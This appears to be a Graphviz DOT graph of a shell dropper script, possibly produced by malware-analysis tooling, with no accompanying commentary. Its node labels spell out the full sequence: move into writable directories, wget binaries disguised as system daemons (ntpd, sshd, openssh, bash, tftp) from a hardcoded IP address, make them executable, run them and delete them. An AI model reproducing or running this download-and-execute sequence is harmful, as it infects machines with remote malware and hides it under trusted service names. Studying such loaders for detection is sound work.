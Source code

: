 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://23.94.164.173/ntpd"];
26 [label=" chmod +x ntpd"];
31 [label=" ./ntpd"];
34 [label=" rm -rf ntpd"];
39 [label=" cd /tmp"];
43 [label=" cd /var/run"];
47 [label=" cd /mnt"];
51 [label=" cd /root"];
55 [label=" cd /"];
59 [label=" wget http://23.94.164.173/sshd"];
63 [label=" chmod +x sshd"];
68 [label=" ./sshd"];
71 [label=" rm -rf sshd"];
76 [label=" cd /tmp"];
80 [label=" cd /var/run"];
84 [label=" cd /mnt"];
88 [label=" cd /root"];
92 [label=" cd /"];
96 [label=" wget http://23.94.164.173/openssh"];
100 [label=" chmod +x openssh"];
105 [label=" ./openssh"];
108 [label=" rm -rf openssh"];
113 [label=" cd /tmp"];
117 [label=" cd /var/run"];
121 [label=" cd /mnt"];
125 [label=" cd /root"];
129 [label=" cd /"];
133 [label=" wget http://23.94.164.173/bash"];
137 [label=" chmod +x bash"];
142 [label=" ./bash"];
145 [label=" rm -rf bash"];
150 [label=" cd /tmp"];
154 [label=" cd /var/run"];
158 [label=" cd /mnt"];
162 [label=" cd /root"];
166 [label=" cd /"];
170 [label=" wget http://23.94.164.173/tftp"];
174 [label=" chmod +x tftp"];
179 [label=" ./tftp"];
182 [label=" rm -rf tftp"];
2 -> 6;
2 -> 22;
6 -> 10;
6 -> 22;
10 -> 14;
10 -> 22;
14 -> 18;
14 -> 22;
18 -> 22;
22 -> 26;
26 -> 31;
31 -> 34;
34 -> 39;
39 -> 43;
39 -> 59;
43 -> 47;
43 -> 59;
47 -> 51;
47 -> 59;
51 -> 55;
51 -> 59;
55 -> 59;
59 -> 63;
63 -> 68;
68 -> 71;
71 -> 76;
76 -> 80;
76 -> 96;
80 -> 84;
80 -> 96;
84 -> 88;
84 -> 96;
88 -> 92;
88 -> 96;
92 -> 96;
96 -> 100;
100 -> 105;
105 -> 108;
108 -> 113;
113 -> 117;
113 -> 133;
117 -> 121;
117 -> 133;
121 -> 125;
121 -> 133;
125 -> 129;
125 -> 133;
129 -> 133;
133 -> 137;
137 -> 142;
142 -> 145;
145 -> 150;
150 -> 154;
150 -> 170;
154 -> 158;
154 -> 170;
158 -> 162;
158 -> 170;
162 -> 166;
162 -> 170;
166 -> 170;
170 -> 174;
174 -> 179;
179 -> 182;
}
